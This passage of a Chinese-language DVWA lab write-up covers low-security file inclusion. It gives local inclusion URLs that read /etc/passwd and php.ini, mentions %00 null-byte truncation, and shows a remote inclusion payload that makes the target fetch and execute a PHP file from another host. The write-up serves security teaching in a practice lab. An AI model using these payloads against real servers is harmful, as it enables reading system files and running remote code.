 我们可以看到对对包含的文件没有做任何的过滤和限制。


## 本地文件包含

点击file1.php观察url，可以发现包含了file1.php文件

![image-20220519094324899.png](_img/assets/1652927657066-5c357f2b-0beb-4163-a122-e79358f78783.png)

修改file1.php
```
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=/etc/passwd
```

报错说明没有这个文件，但是爆出来了文件的所在路径
```
E:\phpstudy_pro\WWW\DVWA\vulnerabilities\fi\index.php
```

![image-20220519094427002.png](_img/assets/1652927674395-4953f4fe-abcc-4432-9563-65407b3d925e.png)

尝试读取php.ini文件
```
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=E:\phpstudy_pro\WWW\DVWA\php.ini
```

![image-20220519094552405.png](_img/assets/1652927689166-ad0af385-8014-4838-93aa-0f406682f392.png)

成功读取了服务器的php.ini文件，同时我们可以看到Magic_quotes_gpc选项为off。在php版本小于5.3.4的服务器中，当Magic_quote_gpc选项为off时，可以在文件名中使用%00进行截断，也就是说%00后面的内容不会被识别。


## 远程文件包含

在IP为192.168.10.2的机器上创建一个读取phpinfo的文件
```php
<?php
phpinfo();
?>
```

![image-20220519095022079.png](_img/assets/1652927698503-3036112a-4fb7-41a5-9709-73a7333763a0.png)

远程文件包含payload：
```
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=http://192.168.10.2/phpinfo.php
```

![image-20220519095142764.png](_img/assets/1652927704951-352a3064-91c5-4927-afec-1a0c2743b807.png)

成功读取phpinfo文件。


# 2、Medium
